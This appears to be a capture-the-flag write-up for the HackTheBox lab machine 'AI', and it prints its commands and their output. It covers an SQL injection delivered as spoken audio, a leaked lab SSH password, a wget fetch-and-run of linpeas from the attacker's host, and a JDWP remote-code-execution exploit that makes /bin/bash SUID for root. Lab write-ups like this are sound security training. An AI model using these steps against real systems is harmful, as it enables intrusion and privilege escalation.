




---
search:
  exclude: true
---
# AI Writeup

## Introduction :

AI is a Medium linux box released back in November 2019.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
      [ 10.10.14.26/23 ] [ /dev/pts/5 ] [~]
      → ping 10.10.10.163
      PING 10.10.10.163 (10.10.10.163) 56(84) bytes of data.
      64 bytes from 10.10.10.163: icmp_seq=1 ttl=63 time=25.7 ms
      64 bytes from 10.10.10.163: icmp_seq=2 ttl=63 time=27.9 ms
      64 bytes from 10.10.10.163: icmp_seq=3 ttl=63 time=26.7 ms
      ^C
      --- 10.10.10.163 ping statistics ---
      3 packets transmitted, 3 received, 0% packet loss, time 2003ms
      rtt min/avg/max/mdev = 25.710/26.775/27.874/0.883 ms
    
      [ 10.10.14.26/23 ] [ /dev/pts/5 ] [~]
      → sudo nmap -vvv -sTU -p- 10.10.10.163 --max-retries 0 -Pn --min-rate=500 | grep Discovered
      [sudo] password for nothing:
      Discovered open port 80/tcp on 10.10.10.163
      Discovered open port 22/tcp on 10.10.10.163
    
      [ 10.10.14.26/23 ] [ /dev/pts/5 ] [~]
      → nmap -sCV -p80,22 10.10.10.163
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-24 23:23 CEST
      Nmap scan report for 10.10.10.163
      Host is up (0.030s latency).
    
      PORT   STATE SERVICE VERSION
      22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
      | ssh-hostkey:
      |   2048 6d:16:f4:32:eb:46:ca:37:04:d2:a5:aa:74:ed:ab:fc (RSA)
      |   256 78:29:78:d9:f5:43:d1:cf:a0:03:55:b1:da:9e:51:b6 (ECDSA)
      |_  256 85:2e:7d:66:30:a6:6e:30:04:82:c1:ae:ba:a4:99:bd (ED25519)
      80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
      |_http-server-header: Apache/2.4.29 (Ubuntu)
      |_http-title: Hello AI!
      Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 9.55 seconds
    

## **Part 2 : Getting User Access**

Our nmap scan picked up port 80 so let's investigate it with dirsearch:

To the top right is a certain logo to which is a menu taking us to various php webpages:
    
    
      [ 10.10.14.26/23 ] [ /dev/pts/6 ] [/usr/share/wordlists]
      → curl -sk http://10.10.10.163 | grep nav-li
      .nav-li
      .nav-li a {
      .nav-li a:after {
      .nav-li a:hover:after {
      <****li class="nav-li"> <****a href="index.php">Home <****/a> <****/li> <****li class="nav-li"> <****a href="about.php">About <****/a> <****/li> <****li class="nav-li"> <****a href="ai.php">AI <****/a> <****/li> <****li class="nav-li"> <****a href="contact.php">Contact <****/a> <****/li>
        $(".nav-li").slideDown(500);
        $(".nav-li").slideUp(500);

So going to each of these pages we are greeted with a few interesting informations about the website: 

So we here we have an username : MrR3boot, a domain name ai.htb, and most importantly we're hinted towards a wav file upload php page, which is supposedly processed by Artificial Intelligence.

Hitting CTRL+U to view the sourcecode of the ai.php page, we see that the file upload is a post method, which, as expected expects us to drop in a file for it to be processed. In the background, let's run gobuster to see if there are any other php files that we can find:
    
    
    
      [ 10.10.14.26/23 ] [ /dev/pts/5 ] [~]
      → gobuster dir -w /usr/share/wordlists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -u http://10.10.10.163 -x php
      ===============================================================
      Gobuster v3.1.0
      by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
      ===============================================================
      [+] Url:            http://10.10.10.163
      [+] Method:         GET
      [+] Threads:        50
      [+] Wordlist:       /usr/share/wordlists/Discovery/Web-Content/directory-list-2.3-medium.txt
      [+] Status codes:   200,204,301,302,307,401,403
      [+] User Agent:     gobuster/3.1.0
      [+] Extensions:     php
      [+] Timeout:        10s
      ===============================================================
      2020/05/24 23:58:39 Starting gobuster in directory enumeration mode
      ===============================================================
      /images (Status: 301)
      /index.php (Status: 200)
      /uploads (Status: 301)
      /contact.php (Status: 200)
      /about.php (Status: 200)
      /db.php (Status: 200)
      /intelligence.php (Status: 200)
      /ai.php (Status: 200)
      /server-status (Status: 403)
    
      ===============================================================
      2020/05/25 00:03:48 Finished
      ===============================================================
    
      [ 10.10.14.26/23 ] [ /dev/pts/6 ] [/usr/share/wordlists]
      → curl -sk http://10.10.10.163/db.php | wc -l
      0
    
      [ 10.10.14.26/23 ] [ /dev/pts/6 ] [~/_HTB/AI]
      → curl -sk http://10.10.10.163/intelligence.php | wc -l
      272
    
    

Apparently there's a db.php webpage but it seems to be empty, So we take a look at intelligence.php which we know isn't empty:

here we see that we should be able to pass a few sketchy terms such as C code or sql comments, even sql union code if the AI in question is able to pick up what we want correctly from the .wav file we give it. We can use [ttsmp3.com](https://ttsmp3.com/) for that:
    
    
    open single kwote. union select password from users comment database
    
    

` 
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/4 ] [~/HTB/AI]
    → cp ~/Downloads/ttsMP3.com_VoiceText_2021-6-20_11\ 2\ 37.mp3 injection.mp3
    
    [ 10.10.14.11/23 ] [ /dev/pts/4 ] [~/HTB/AI]
    → ffmpeg -i injection.mp3 injection.wav
    
    

We convert the file to wav for the box and submit it:

 

And we get a password! Now the username for this box is 'alexa' because that was the box's previous name, so let's try to login via SSH:
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/4 ] [~/HTB/AI]
    → ssh alexa@10.10.10.163
    The authenticity of host '10.10.10.163 (10.10.10.163)' can't be established.
    ECDSA key fingerprint is SHA256:ghI7byxujOo6BLzCOPFbXgVPMmJVCoRsMuPs3zBgRQM.
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
    Warning: Permanently added '10.10.10.163' (ECDSA) to the list of known hosts.
    alexa@10.10.10.163's password: **H,Sq9t6}a <)?q93_**
    Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 5.3.7-050307-generic x86_64)
    
     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage
    
      System information as of Sun Jun 20 16:18:37 UTC 2021
    
      System load:  0.17               Processes:           147
      Usage of /:   27.9% of 19.56GB   Users logged in:     0
      Memory usage: 26%                IP address for eth0: 10.10.10.163
      Swap usage:   0%
    
    
     * Canonical Livepatch is available for installation.
       - Reduce system reboots and improve kernel security. Activate at:
         https://ubuntu.com/livepatch
    
    63 packages can be updated.
    15 updates are security updates.
    
    
    
    The programs included with the Ubuntu system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.
    
    Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
    applicable law.
    
    Last login: Thu Oct 24 15:04:38 2019 from 192.168.0.104
    alexa@AI:~$ id
    uid=1000(alexa) gid=1000(alexa) groups=1000(alexa)
    alexa@AI:~$ cat user.txt
    c4XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

And that's it! We managed to get the user flag.

## **Part 3 : Getting Root Access**

Now once we're on the box we're going to use linpeas.sh:
    
    
    alexa@AI:~$ which wget curl python python3
    /usr/bin/wget
    /usr/bin/curl
    /usr/bin/python
    /usr/bin/python3
    alexa@AI:~$ wget http://10.10.14.11:9090/linpeas.sh -O /tmp/peas.sh ; chmod +x /tmp/peas.sh ; /tmp/peas.sh
    
    

` 

Now scrolling down, we see that we have a hint towards a java command that's being run as the root user:

In this giant java process being ran by root, we are hinted towards a **java debugging wire protocol** service, and it probably doesn't require any authentication. We also see that it listens on the local port **8000** , but probably only accepts localhost connections, so we're going to use a [SSH tunnel](../Tools/sshtunnels/index.md) to port forward the remote port 8000 to our local machine on port **8000** :
    
    
    alexa@AI:~$ netstat -tulpen
    (Not all processes could be identified, non-owned process info
     will not be shown, you would have to be root to see it all.)
    Active Internet connections (only servers)
    Proto Recv-Q Send-Q Local Address           Foreign Address         State       User       Inode      PID/Program name
    tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      101        32516      -
    tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      0          40453      -
    **tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      0          114355     -**
    tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      111        39858      -
    tcp6       0      0 127.0.0.1:8080          :::*                    LISTEN      0          114364     -
    tcp6       0      0 :::80                   :::*                    LISTEN      0          40656      -
    tcp6       0      0 :::22                   :::*                    LISTEN      0          40467      -
    tcp6       0      0 127.0.0.1:8005          :::*                    LISTEN      0          114375     -
    tcp6       0      0 127.0.0.1:8009          :::*                    LISTEN      0          114368     -
    udp        0      0 127.0.0.53:53           0.0.0.0:*                           101        32515      -
    udp        0      0 0.0.0.0:55487           0.0.0.0:*                           114        38363      -
    udp        0      0 0.0.0.0:5353            0.0.0.0:*                           114        38361      -
    udp6       0      0 :::41753                :::*                                114        38364      -
    udp6       0      0 :::5353                 :::*                                114        38362      -
    alexa@AI:~$
    

Here you can see that the port is listening on port 8000, so we really need to port forward it:
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/18 ] [~/HTB/AI]
    → ssh alexa@10.10.10.163 -L 8000:127.0.0.1:8000
    
    

Now let's get an exploit for the jdwp service:
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/19 ] [~/HTB/AI]
    → searchsploit jdwp
    --------------------------------------------------------------------------------------------- ---------------------------------
     Exploit Title                                                                               |  Path
    --------------------------------------------------------------------------------------------- ---------------------------------
    Java Debug Wire Protocol (JDWP) - Remote Code Execution                                      | java/remote/46501.py
    --------------------------------------------------------------------------------------------- ---------------------------------
    Shellcodes: No Results
    

We're going to use the 46501.py exploit on the port we just forwarded:
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/19 ] [~/HTB/AI]
    → python 46501.py -t localhost -p 8000 --cmd "chmod u+s /bin/bash"
    [+] Targeting 'localhost:8000'
    [+] Reading settings for 'OpenJDK 64-Bit Server VM - 11.0.4'
    [+] Found Runtime class: id=b8d
    [+] Found Runtime.getRuntime(): id=7f9e3003e810
    [+] Created break event id=2
    [+] Waiting for an event on 'java.net.ServerSocket.accept'
    
    

Now to trigger our payload we need to curl the box's local port 8005:
    
    
    alexa@AI:~$ curl 127.0.0.1:8005
    curl: (56) Recv failure: Connection reset by peer
    alexa@AI:~$
    
    

And we see that the exploit finishes and the command should have been executed as the root user:
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/19 ] [~/HTB/AI]
    → python 46501.py -t localhost -p 8000 --cmd "chmod u+s /bin/bash"
    [+] Targeting 'localhost:8000'
    [+] Reading settings for 'OpenJDK 64-Bit Server VM - 11.0.4'
    [+] Found Runtime class: id=b8d
    [+] Found Runtime.getRuntime(): id=7f9e3003e810
    [+] Created break event id=2
    [+] Waiting for an event on 'java.net.ServerSocket.accept'
    [+] Received matching event from thread 0x1
    [+] Selected payload 'chmod u+s /bin/bash'
    [+] Command string object created id:c32
    [+] Runtime.getRuntime() returned context id:0xc33
    [+] found Runtime.exec(): id=7f9e3003e848
    [+] Runtime.exec() successful, retId=c34
    [!] Command successfully executed
    
    

So let's verify it:
    
    
    alexa@AI:~$ /bin/bash -p
    bash-4.4# id
    uid=1000(alexa) gid=1000(alexa) euid=0(root) groups=1000(alexa)
    bash-4.4# cat /root/root.txt
    0eXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it! We managed to get a root RCE to get a root shell and get the root flag.

## **Conclusion**

Here we can see the progress graph :

